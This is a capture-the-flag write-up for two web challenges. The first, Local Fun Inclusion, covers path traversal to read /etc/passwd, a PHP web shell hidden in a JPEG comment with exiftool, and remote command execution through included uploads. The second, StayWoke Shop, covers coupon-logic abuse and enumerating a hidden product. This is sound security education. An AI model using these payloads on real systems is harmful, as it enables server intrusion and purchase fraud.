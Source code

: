 # Web

## Local Fun Inclusion

**Challenge**

"Recently i learned how to code in PHP. There are cool tutorials for file uploads around! Imgur Memes have no chance vs. my cool image sharing website!

Check it out at: http://lfi.hax1.allesctf.net:8081/"


**Solution**

**Information Gathering:**
The website only allows uploading image files. 
When hitting the **Submit** button without choosing an image, the URL contains a new request `site=upload.php`.
This is a first hint for a **Local File Inclusion** vulnerability. To verify this assumption call the following URL: 

> http://lfi.hax1.allesctf.net:8081/index.php?site=/../../../etc/passwd

We receive the content of **/etc/passed** 

Unfortunately we can't call  

> http://lfi.hax1.allesctf.net:8081/index.php?site=flag.txt

 to get the flag. We probably need a way to read the directories in order to find out what we're looking for.

The page tells you the storage location when uploading an image. This can be used to upload our **own php** code which can be executed with the **Local File Inclusion** vulnerability.
Unfortunately, uploading php files is forbidden by the server. We need an image file with the correct file extension and magic number. Hence, we have to fool the server, by uploading an image file containing php code.

**Exploit Image**:
To generate an empty image we can use the tool **convert**:

> $ convert -size 32x32 xc:white empty.jpg

Now adding your **own php code** to the image comments with **exiftool**:

> $ exiftool -Comment="<?php echo shell_exec($_GET['cmd']); ?>" empty.jpg

(I needed to add **$_GET** manually with vim after executing this command, as it has been removed)

This simple php code `<?php echo shell_exec($_GET['cmd']); ?>` only takes a **GET-Parameter** `cmd` and executes the value as a command. Our goal is to upload this image and execute it with `[BaseURL]/index.php/site=[ImageLocation]&cmd=[arbitraryShellCommand]`. With this approach we can pass arbitrary shell commands, like `ls` to read the directories, or `cat` to read file content.

So we upload this new image and getting the corresponding file location.
Now take the URL and use **Burp** to craft our different requests:
Activate the **Burp proxy** and do a request like `lfi.hax1.allesctf.net:8081/index.php?site=`.
The **Burp proxy** will intercept this request and we can send it to the **Burp Repeater**.

Now just append the file location the the **GET-Request** in the **Burp Repeater**.
The following **GET**-Request will list the files of the current direcotry in the response (Keep in mind that the upload location is different for every upload):
> GET /index.php?site=uploads/a2e4822a98337283e39f7b60acf85ec9_1.jpg&cmd=ls

We can see the `flag.php` file, so we are one step away from the flag. By doing another **GET**-Request we can print the content of this file and receive the flag:

> GET /index.php?site=uploads/a2e4822a98337283e39f7b60acf85ec9_1.jpg&cmd=cat%20flag.php



## StayWoke Shop

**Challenge**

"Are you missing some essential items that were sold out in your local supermarket? You can easily stock up on these in my shop:
http://staywoke.hax1.allesctf.net/"

**Solution**

The Challenge is a web shop, which offers different products for 1€ each. 
These can be added to the shopping cart. In addition, we receive a 20% discount coupon through a scrolling news text (**I<3CORONA**). 

So let's search for a weak point. The coupon code seems to be a good starting point. 
Lets start burp and try to play around with the post and get requests of the shop.
My first thought was posting the same coupon multple times to the server, but this didnt change my wallet ballance or anything else.

While playing around with the shop i relized that the discount amount of the coupon was calculates from the current cart balance.
If you have a shopping card with a sum of product cost of 10€, and you use the discount coupon, the "product" **"coupon"** is added to you card.
This product now has costs **"-2€"**. If we remove now the products from our current cart, this amount remains unchanged.
This allows us to buy any of these products. 
Unfortunately buying one of these Products does not give us the flag.
Also the cart is limited to an amount of 10 products so we cant buy all at once.

So lets keep looking for something odd.

While looking at the intercepted requests in burp i relized that the products are indexed with numbers.
I added the product get-request to the repeater and tried the different numbers to see if there is any hidden product.
And yes, there is a product "flag" at the index 1 (GET /products/1 HTTP/1.1), which costs 1337€:

![](writeupfiles/flagProduct.png)

The rest is pretty easy.
I intercepted a product request of an arbitrary product with burp and changed the requested product index to 1.
Now we have one flag product in our cart.
The next step is adding 10 of these flag products to the cart and use the coupon.
With the coupon we now have 20% of the current costs as a negative value in the cart.
Remove the flags until the balance is high enough to buy a flag.
Now only hit the buy-botton while using the payment option "w0kecoint" with an arbitrary account number.

This will lead us to the order conformation which show us the flag: **CSCG{c00l\_k1ds\_st4y\_@\_/home/}**


To avoid this security issue the discount has to be calculated everytime the cart has changed.
